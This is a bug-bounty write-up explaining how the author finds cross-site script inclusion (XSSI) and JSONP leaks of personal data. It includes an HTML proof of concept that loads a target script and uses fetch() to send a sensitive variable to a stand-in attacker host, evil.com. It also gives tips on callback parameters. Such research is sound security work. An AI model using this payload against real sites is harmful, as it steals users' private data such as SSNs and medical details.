

Hey everyone, I recently reported a dupe for a XSSI bug on a private program which paid out $800 to the original reporter. I decided to share the methodology I follow.

*Update: With the advent of same-site cookies, this vulnerability will be more difficult to find, as it relies on cookies being sent in the request similar to CSRF attacks.*

**tl;dr:** (also read important notes at the bottom)



Good reads, in case you’re new to:

**XSSI**: [Cross-Site Sscript Inclusion](https://www.scip.ch/en/?labs.20160414)

**JSONP**: [Accessing cross-site data using JSONP](https://www.sjoerdlangkemper.nl/2019/01/02/jsonp)

---

### My Methodology:

- After spidering the website (manual & automated), I filtered the results in Burp suite by MIME type, then skim through the responses of type “script” for sensitive information.


- I found a JS file which includes all the information that I filled in when signing up for an insurance policy. This included SSN, limited medical history, visa info, name, phone number, DOB, address etc. *Yikes*.
- I look at the HTTP GET request for the JS file to make sure that it doesn’t require CORS triggering headers like:
Authorization, X-API-KEY, X-CSRF-TOKEN, X-whatever
- At this stage if it does have CORS headers then, the attack will fail, unless I also find a CORS issue.

In this case, no special headers were needed, so I could include the JS file on a web page with a script tag and send it to any server leaking some serious PII, with the POC being similar to:

```html
<script src="https://target.com/vuln.js"></script>
<script defer>
// var_name is a variable in vuln.js holding sensitive information
console.log(var_name);
// sending information to an attacker controlled server
fetch("https://evil.com/stealInfo?info="+var_name);
</script>
```

You can use the same way to find JSONP callbacks by appending parameters like callback=some_function, jsonp=blah on all paths that return sensitive information.


---

### Important Notes:

Sometimes you’ll need multiple parameters to trigger a JSONP response.


| Endpoint | JSONP? |
| ----------- | ----------- |
| target.com?callback=test |❌|
| target.com?type=jsonp&callback=test |✅|

- If the response has a header set as `Content-Type: application/json` but the body has JSONP/javascript, and the `X-Content-Type-Options: nosniff` header is NOT in the response, the exploit still works.

For JSONP, different callback parameters might work on different endpoints even on the same website.

| Endpoint | JSONP? |
| ----------- | ----------- |
| target.com/profile_info?callback=test |❌|
| target.com/profile_info?jsonp=test |✅|

But, on a different path on the same site:

| Endpoint | JSONP? |
| ----------- | ----------- |
| target.com/account_info?jsonp=test |❌|
| target.com/account_info?jsoncallback=test |✅|
